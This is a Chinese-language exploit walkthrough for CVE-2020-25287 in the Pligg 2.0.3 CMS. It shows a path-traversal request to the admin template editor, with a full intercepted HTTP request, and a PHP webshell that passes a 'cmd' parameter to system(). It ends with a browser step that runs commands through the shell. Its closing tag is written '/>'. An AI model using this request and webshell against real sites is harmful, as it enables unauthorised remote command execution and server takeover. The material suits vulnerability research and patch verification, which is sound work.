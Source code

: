 # CVE-2020-25287：Pligg 2.0.3允许远程身份验证的用户执行任意命令

## Pligg

Pligg

{% embed url="https://www.pligg.com/" %}



软件类别： CMS 开发语言： PHP 运行平台： PHP+MySQL 授权协议： 开源软件

## POC

{% embed url="https://github.com/jenaye/pligg" %}



说明 ： 我们可以通过模板编辑器菜单使用参数访问任何文件，因为cms没有对扩展进行检查，然后将 Webshell 创建到现有的 php 文件中作为示例 the\_file 受影响的版本 ： 2.0.3

### 利用

![image-20200916160348852](../../.gitbook/assets/image-20200916160348852.png)

转到bp截获请求，并更改文件路径。/admin/admin\_editor.php

范例：xxx.php \(此例子为index.php\)

![image-20200916160604770](../../.gitbook/assets/image-20200916160604770.png)

```bash
POST /admin/admin_editor.php HTTP/1.1
Host: kliqqi
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://kliqqi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://kliqqi/admin/admin_editor.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: panelState=CollapseManage%7CCollapseSettings%7CCollapseTemplate; PHPSESSID=lfkc3gtrv5o1golmt5md3; mnm_user=Admin; mnm_key=QWRtaW46MjI0R2dEVTAxZncxZzpl
Connection: close

the_file=..%2Fxxx.php&open=Open
```

然后发包，这时浏览器会响应并显示以下，修改xxx.php的内容为cmd shell

```php
<?php
  if($_GET['cmd']){
    system($_GET['cmd']);
}
/>
```

![image-20200916161313819](../../.gitbook/assets/image-20200916161313819.png)

最后在浏览器浏览webshell

`xxx.com/xxx.php?cmd=dir`

![image-20200916161421298](../../.gitbook/assets/image-20200916161421298.png)

